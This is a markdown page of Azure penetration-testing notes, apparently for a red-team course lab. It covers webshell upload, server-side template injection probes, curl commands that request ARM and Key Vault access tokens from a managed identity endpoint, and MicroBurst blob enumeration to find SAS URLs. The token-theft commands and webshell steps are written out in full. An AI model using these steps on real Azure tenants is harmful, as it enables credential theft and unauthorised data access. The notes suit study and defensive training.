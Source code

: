 ## Insecure file upload
- Upload a webshell to a insecure webapp
- If command execution is possible execute command ```env```
- if the app service contains environment variables IDENITY_HEADER and IDENTITY_ENDPOINT, it has a managed identity.
- Get access token from managed identity using another webshell. Upload studentxtoken.phtml

## Server Side Template Injection
- SSTI allows an attacker to abuse template syntax to inject payloads in a template that is executed on the server side. 
- That is, we can get command execution on a server by abusing this.
- Find we webapp which is vulnerable, test with injectin a expression ```{{7*7}}``` and see if it gets evaluated.
- The way expression is evaluated means that, most probably, either PHP or Python is used for the web app. We may need to run some trial and error methods to find out the exact language and template framework. 
- Use ```{{config.items()}}``` and see if it works.
- Check if a managed identity is assigned (Check for the env variables IDENTITY_HEADER and IDENTITY_ENDPOINT)
- If code execution is possible execute the following to get a ARM access token for the managed identity:
```
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```
- Request keyvault Access token
```
curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

## OS Command injection
- In case of OS command injection, it is possible to run arbitrary operating  system commands on the server where requests are processed. 
- This is usually due to insecure parsing of user input such as parameters, uploaded files and HTTP requests. 

## Storage account
#### Enumerate Azureblobs
- add permutations to permutations.txt like common, backup, code in the misc directory.
```
Import-Module ./Microburst.psm1
Invoke-EnumerateAzureBlobs -Base defcorp
```
- Access the URL's and see if any files are listed (Example https://defcorpcommon.blob.core.windows.net/backup?restype=container&comp=list)
- Access the files by adding it to the url (Example https://defcorpcommon.blob.core.windows.net/backup/blob_client.py)
- Check for a SAS URL, if found then open the "Connect to Azure Storage", select "blobl container" and select 'Shared Access Signatur (SAS)' and paste the URL, displayname will fill automatically.
